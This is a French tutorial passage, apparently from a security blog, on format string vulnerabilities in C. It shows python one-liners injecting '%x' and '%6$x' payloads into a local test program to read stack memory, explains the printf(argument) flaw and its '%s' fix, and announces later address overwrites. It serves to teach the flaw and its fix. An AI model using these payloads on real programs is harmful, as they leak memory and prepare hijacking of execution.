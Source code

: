 L'exécution est simple:  

![fmt1]({{ site.url }}/public/images/fmt/fmt1.png)  
Fuzzons juste pour vérifier que le fgets fait bien son boulot et que nous évitons un débordement classique:  

![fmt2]({{ site.url }}/public/images/fmt/fmt2.png)

Maintenant faisons un autre test:
```
#python -c 'print "%x"*100' | ./simple
Your input: 65b7fb05a0b7fffc08bffff27f025c10000257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578782578b7fb03dcbffff2f00b7e152761b7fb00000b7e152761bffff384bffff38c000b7fb0000b7fffc04b7fff00001Au revoir
```
  
Wowowo ça y est je suis l'élu, je sais lire la matrice?!  
  
Ce qui se passe ici est du au ```printf(argument);```. Ceci est valable avec toutes les fonctions similaires printf, fprintf, sprintf, snprintf, vprintf, vfprintf, vsprintf, vsnprintf.  
  
La version secure aurait été ```printf("%s",argument);``` pour forcer l'interprétation des données en tant que chaine de caractères:
```
Your input: 
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Au revoir
```  
  
Avec ```printf(argument);```, vous pouvez injecter des formateurs qui demanderont à la fonction printf de dépiler de la stack autant d'arguments que de formateurs. Ceci nous permettra de lire la mémoire de notre exécutable et nous le verrons d'écraser des adresses pour rediriger vers notre flot d'exécution.  
  
Avez-vous remarqué la suite **25782578257825782578** affichée avec le formateur **%x** ?:
```
echo -n 2578 | xxd -p -r
%x
```
  
Nous pouvons lire depuis la mémoire notre argument passé à notre exécutable.
```
python -c 'print "A"*20 + "-%x"*20' | ./simple
Your input: 
AAAAAAAAAAAAAAAAAAAA-65-b7fb05a0-b7fffc08-bffff27f-0-41c10000-41414141-41414141-41414141-41414141-2d414141-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d
Au revoir
```  
```
python -c 'print "A"*23 + "-%6$x"' | ./simple
Your input: 
AAAAAAAAAAAAAAAAAAAA-41c10000
Au revoir
```  
